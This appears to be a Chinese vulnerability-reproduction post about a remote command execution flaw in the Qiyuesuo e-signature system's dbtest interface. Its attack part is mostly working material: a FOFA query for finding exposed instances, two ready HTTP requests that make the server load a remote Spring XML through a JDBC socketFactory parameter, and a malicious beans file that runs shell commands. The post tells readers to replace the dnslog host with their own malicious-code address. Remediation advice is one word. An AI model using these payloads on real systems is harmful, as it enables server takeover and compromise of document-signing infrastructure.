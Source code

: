 #  契约锁电子签章系统dbtest接口存在远程命令执行漏洞 附POC  
2025-6-18更新  南风漏洞复现文库   2025-06-18 15:44  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 契约锁电子签章系统简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
契约锁电子签章系统  
## 2.漏洞描述  
  
契约锁电子签章系统dbtest接口存在远程命令执行漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
契约锁电子签章系统  
  
![契约锁电子签章系统dbtest接口存在远程命令执行漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2opZQwHXCaibzIReQH3FUqrejPibPPKbt0PrNmXt237elY1QlzYwBKtEEicw/640?wx_fmt=png&from=appmsg "null")  
  
契约锁电子签章系统dbtest接口存在远程命令执行漏洞  
## 4.fofa查询语句  
  
app="契约锁-电子签署平台"  
## 5.漏洞复现  
  
漏洞数据包如下两个：  
```
GET /api/setup/dbtest?db=POSTGRESQL&host=localhost&port=5511&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fdxugqgrfejgjdekb.2bi2sq.dnslog.cn%2F1%2Exml HTTP/1.1
Host: xx.xx.xx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
```
GET /setup/dbtest?db=POSTGRESQL&host=localhost&port=5511&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fdxugqgrfejgjdekb.2bi2sq.dnslog.cn%2F1%2Exml HTTP/1.1
Host: xx.xx.xx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
存在漏洞会成功出发dnslog平台记录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2op6jZx447PHTeDfx0dMmpfWoLTFSv345QibMYHvh6ic8AugWmicGzwFOdMA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
可以在把dnslog替换成自己的恶意代码地址，在自己的网站上搭建如下文件，用接口访问该文件即可：  
```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>/bin/sh</value>
            <value>-c</value>
            <value>touch /tmp/test</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2op1FIgBibg2cEp3BA7WYp7PrQReYtaPf0Px5dUoNmBicC1TXe75zIxGp6Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2op3yzibXsDBgKhVcHOxzDycCW8rK6dbCOg1MCWaHAsT5gV5R7E5GHiabtg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2opYnEnqJOKu7WcPj6UutydpNESnTDkDrphK4zqOia5CWPkecjjLzWEY0w/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2opRtmSqDoX2hOXOrafqLtd0Vk2QggJCPqvvp4MGAlGADUhYvIthibGpPQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2opRELQ1qSmBicibvf15gUARDTaSoKdia8nKiaZJWJ63tuoibbzNiaA5z6YuWuA/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
   
  
  
  
